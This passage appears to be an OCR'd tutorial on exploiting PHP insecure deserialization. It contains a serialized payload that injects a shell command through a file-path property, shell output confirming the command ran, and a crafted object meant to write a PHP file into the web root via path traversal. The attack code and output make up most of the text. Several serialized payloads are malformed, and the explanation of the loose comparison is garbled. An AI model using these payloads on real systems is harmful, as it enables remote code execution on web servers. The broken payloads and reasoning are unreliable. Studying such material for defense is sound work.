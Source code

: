 Now you need to modify the exploit to create a file, for example:

```php
public $path = "/tmp/aula;id>/tmp/path; echo ";
```

Sending the payload:

```bash
a:2:{s:7:"payload";O:11:"FileManager":1:{s:4:"path";s:29:"/tmp/aula;id>/tmp/path; echo ";}} 
```

Checking the file, it was possible to execute commands:

```bash
┌──(kali㉿kali)-[/tmp]
└─$ cat path         
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),116(scanner),138(wireshark),141(kaboxer)
```

If the `__destruct` is in the following format:

```php
public function isAuth(){
    if($this->auth){
        return true;
    } else {
	      return false;
    }
}

public function __destruct() {
    if($this->role == "admin"){
        file_put_contents("/tmp/".$this->username, serialize($this));
    }
}

```

```bash
O:4:"Auth":3:{s:4:"auth";i:1:"guest";s:5:"admin";s:4:"role";s:5:"admin";s:4;}
```

In this case, it writes the content of the current class into a file. There are two vulnerabilities:

If the username is `../../var/www/html/test.php`, it will create this file with just the class content. However, if you put it this way, it will only write the class content.

Another thing is, since it uses the comparison `if($this->auth)`, this is equivalent to `if($this != 0 || $this != NULL)`, meaning we could modify the content

```bash
O:4:"Auth":3:{s:4:"auth";s:18:"<?php phpinfo();?>";s:27:"../../var/www/html/test.php";s:4:"role";s:5:"admin";s:4;}
```
